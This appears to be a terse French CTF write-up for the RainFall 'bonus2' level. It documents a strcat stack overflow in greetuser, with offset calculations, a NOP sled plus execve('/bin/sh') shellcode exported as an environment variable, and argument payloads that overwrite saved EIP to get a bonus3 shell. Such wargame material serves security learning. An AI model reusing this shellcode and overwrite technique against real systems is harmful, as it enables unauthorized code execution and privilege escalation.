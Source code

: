 # bonus02

Vu que l on a la protection "GCC stack protector support" d'activer, nous devons utiliser la ligne suivante dans gdb afin de garder des adresses coherentes avec une utilisation sans gbd:
set exec-wrapper env -u LINES -u COLUMNS

Si argc n'est pas egal a 3, le programme se termine et retourne 1 (main+15)

set exec-wrapper env -i LANG="fi"

bonus2@RainFall:~$ echo $LANG
fi

A greetuser+147 nous avons un strcat() avec l adresse de la destination a 0xbffff260 et save $eip a l adresse 0xbffff2ac, ce qui nous permet d'ecraser sa valeur si l'adresse de destination atteint 80 bytes (0xbffff2ac-0xbffff260 = 76 + les 4 bytes de l'adresse a overwrite) et ne pas retourner a main+263, mais sur l adresse de notre shellcode

bonus2@RainFall:~$ export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\x78\xf7\xff\xbf"')Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB���
$ whoami
bonus3
$ echo "You are the bonus3 user"
You are the bonus3 user
$


Premier argument du main dans le main: 0xbfffd836
	Dans la fonction greetuser: 0xbfffd5a0

Le tout dans greetuser: 0xbffff462

0xbffff4f0


r $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\x1e\xf5\xff\xbf" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')


